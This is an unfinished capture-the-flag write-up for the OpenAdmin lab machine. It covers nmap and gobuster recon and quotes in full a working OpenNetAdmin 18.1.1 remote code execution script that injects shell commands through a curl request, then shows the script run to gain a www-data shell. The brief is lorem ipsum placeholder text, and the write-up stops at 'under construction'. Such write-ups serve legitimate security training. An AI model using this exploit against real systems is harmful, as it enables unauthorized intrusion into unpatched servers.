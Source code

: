 ```yaml
---
title: OpenAdmin Writeup
date: 2020-11-06 00:38:56
categories: [HTB, retired]
published: true
tags: [writeup]
---
```


[![Banner](https://raw.githubusercontent.com/0xsyr0/0xsyr0.github.io/master/assets/img/htb/openadmin/openadmin_info_card.jpg)](https://www.hackthebox.eu/home/machines/profile/222)

# Information@openadmin:~$

| Column                       | Detail           |
|:-----------------------------|:-----------------|
| Name                         | OpenAdmin        |
| IP                           | 10.10.10.171     |
| Points                       | 20               |
| OS                           | Linux            |
| Difficulty                   | Easy             |
| Creator                      | [dmw0ng](https://www.hackthebox.eu/home/users/profile/82600) |
| Released on                  | 4 Jan 2020       |
| Retired on                   | 2 May 2020       |

# Brief@openadmin:~$

Lorem ipsum dolor sit amet consectetur adipiscing elit sem lacinia ultricies senectus, sapien hendrerit montes hac non bibendum nec mi suscipit accumsan. Himenaeos semper dignissim dictum netus feugiat magna dictumst, blandit non pellentesque hac lacus tristique, dui egestas conubia parturient morbi dis. Dis lacinia auctor neque metus ad nisi felis vitae hac torquent, tempor et vestibulum molestie dapibus natoque sed suspendisse ullamcorper parturient, tristique proin elementum tortor pretium nullam magnis in cras.

Nulla aptent sociosqu vivamus pellentesque donec senectus venenatis, elementum mollis nam augue vulputate vel, himenaeos mus erat dui blandit mi. Parturient rhoncus at tincidunt conubia taciti feugiat metus auctor, curae integer congue elementum mi nulla mattis, facilisi placerat magnis suscipit tristique lectus dapibus. Cubilia potenti platea viverra pulvinar malesuada sagittis sodales mauris quis, sociis parturient a penatibus odio duis molestie venenatis hendrerit praesent, fames vel cras vitae nam turpis montes quisque.

# Summary

# Recon

## Nmap

```shell
$ sudo nmap -sC -sV -oA nmap 10.10.10.171
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-25 18:28 CEST
Nmap scan report for 10.10.10.171
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.86 seconds
```

We notice that port `22/tcp` and port `80/tcp` are open.

## Gobuster

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.171/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.171/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/25 18:51:23 Starting gobuster
===============================================================
/music (Status: 301)
/artwork (Status: 301)
```

Let's check the found directories. I started with `/music`.

> http://10.10.10.171/music

After clicking on `login` i got redirected.

> http://10.10.10.171/ona/



> https://www.exploit-db.com/exploits/47691

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

```console
$ wget https://www.exploit-db.com/raw/47691
```


```console
$ chmod +x 47691.sh
```

```shell
./47691.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

!!! UNDER CONSTRUCTION !!!


# Resources

<https://www.exploit-db.com/exploits/47691>
